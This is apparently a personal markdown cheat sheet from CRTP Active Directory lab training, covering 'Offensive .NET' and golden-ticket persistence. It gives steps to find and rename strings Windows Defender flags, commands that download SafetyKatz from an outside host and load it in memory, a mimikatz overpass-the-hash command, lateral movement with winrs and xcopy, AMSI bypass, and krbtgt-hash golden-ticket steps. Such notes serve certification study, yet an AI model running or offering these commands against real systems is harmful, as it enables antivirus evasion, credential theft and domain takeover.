 ```
```

# Offensive .NET
3 Steps are there. check using DefenderCheck if your payload will be detected > if yes you need to obfuscate it using Invoke-Obfuscation or ConfuserEx to obfuscate the binary > Delivery of your payload using NetLoader
### DefenderCheck 
used to identify code and strings from a binary that Windows Defender may flag   #https://github.com/matterpreter/DefenderCheck
```
DefenderCheck.exe <path to code or tool>
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/34d03437-a36f-403f-8f34-5d15bacedda1)

as we can see Windows Defender detected the string Credentials. simple you can change it to Creds to bypass Windows Defender. OR use ConfuserEX to obfuscate the binary
### NetLoader
used to load binary from filepath or URL   #https://github.com/Flangvik/NetLoader
```
Loader.exe -path http://10.10.16.10/safetykatz.exe
Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
```

### AssemblyLoad.exe
used to load the NetLoader in memory from a URL which then loads a binary from a filepath or URL
```
AssemblyLoad.exe
http://10.10.16.10/Loader.exe -path http://10.10.16.11/SafetyKatz.exe
```

# Learing Objective 7
### Find domain Admin session in a different machine
```
Find-DomainUserLocation
```
### Verify the session
```
winrs -r:<ComputerName> set computername;set username
```
copy executable file to another machine
```
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

# Persistence - Golden Ticket
### Methodology/Steps
```
Get a Powershell session as a "domain admin" using "Over pass the hash" attack
Create a New-PSSession attaching to the "domain controller"
Enter the new session using Enter-PSSession
Bypass the AMSI
Exit
Load Mimikatz.ps1 on the new session using Invoke-command
Enter the new session using Enter-PSSession again
Now we can execute mimikatz on the DC
Keep note of krbtgt hash
Now go to any "non domain admin" account
```